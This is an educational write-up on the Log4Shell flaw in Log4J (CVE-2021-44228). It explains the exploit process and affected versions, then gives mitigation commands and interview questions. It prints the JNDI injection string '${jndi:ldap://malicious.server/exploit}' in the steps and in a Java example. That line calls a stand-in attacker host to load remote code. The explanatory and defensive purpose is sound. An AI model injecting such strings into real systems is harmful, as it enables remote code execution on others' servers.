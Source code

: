 ```yaml
---
description: >-
  Log4J is a widely used Java-based logging utility that is part of the Apache
  Logging Services. It allows developers to log various levels of information,
  which can be essential for debugging.
---
```


# Log4J Vulnerability (CVE-2021-44228)

#### What Happened?

A critical vulnerability, known as CVE-2021-44228 or "Log4Shell," was discovered in Log4J. This vulnerability allows for remote code execution (RCE), meaning an attacker can execute arbitrary code on a server running a vulnerable version of Log4J. The vulnerability stems from Log4J’s handling of log messages. When logging certain strings, the library can execute arbitrary code fetched from remote servers.

#### How Did the Exploit Occur?

Despite Log4J being an open-source project with community oversight, the exploit was possible due to a feature within the library that allowed for dynamic lookups in log messages. This feature could be manipulated to execute remote code.

**Exploit Process**

1. **Discovery and Announcement**: Security researchers discovered that when a specially crafted string is logged, Log4J can make a JNDI (Java Naming and Directory Interface) lookup to a remote LDAP server, which can return a reference to a malicious Java object.
2. **Injection of Malicious Payload**: Attackers crafted log messages with malicious JNDI lookup strings (e.g., `${jndi:ldap://malicious.server/exploit}`), which were logged by applications using Log4J.
3. **Remote Code Execution**: The malicious Java object is deserialized and executed, allowing the attacker to run arbitrary code on the affected system.

#### Code Example

Here is an example of a vulnerable logging statement:

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class VulnerableApp {
    private static final Logger logger = LogManager.getLogger(VulnerableApp.class);

    public static void main(String[] args) {
        String userInput = "${jndi:ldap://malicious.server/exploit}";
        logger.error("User input: " + userInput);
    }
}
```

In this example, the log message includes user input that contains a JNDI lookup string. When logged, Log4J processes the JNDI lookup, potentially loading and executing malicious code from the specified server.

#### What Systems Does It Affect?

This vulnerability impacts any system using a vulnerable version of Log4J (versions 2.0 to 2.14.1). Due to Log4J's widespread use, the impact spans across various industries and includes applications running on cloud environments, enterprise software, and web services.

#### What Does the Payload Do?

The payload delivered through this exploit allows an attacker to:

* Execute arbitrary commands on the server.
* Download and install additional malicious software.
* Exfiltrate sensitive data.
* Potentially create a persistent backdoor for ongoing access.

#### Mitigation Steps

**1. Update Log4J:**

* Upgrade to the latest version of Log4J (2.15.0 or later), where the JNDI lookup functionality has been disabled by default.

`mvn dependency:tree | grep log4j mvn dependency:resolve -DincludeScope=runtime -Dincludes=org.apache.logging.log4j:log4j-core`

**Disable JNDI Lookups:**

* In the event you can't update immediately, you can mitigate the risk by setting the `log4j2.formatMsgNoLookups` system property to `true`.

`System.setProperty("log4j2.formatMsgNoLookups", "true");`

**Remove JndiLookup class:**

* Another temporary mitigation is to remove the `JndiLookup` class from the log4j-core jar file.

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

#### Interview Questions

**1. What are some proactive measures that organizations can take to reduce the risk of similar vulnerabilities in the future?**

**2. How can organizations effectively balance the need for rapid feature development with the imperative of thorough security testing and code review?**

**3. If you were responsible for responding to an incident like CVE-2021-44228, what immediate steps would you take to mitigate the threat?**\
\
**Cheers Guys, Hope yall enjoyed this sharing!**

**References:**\
[**https://nvd.nist.gov/vuln/detail/CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

[**https://logging.apache.org/log4j/2.x/security.html**](https://logging.apache.org/log4j/2.x/security.html)
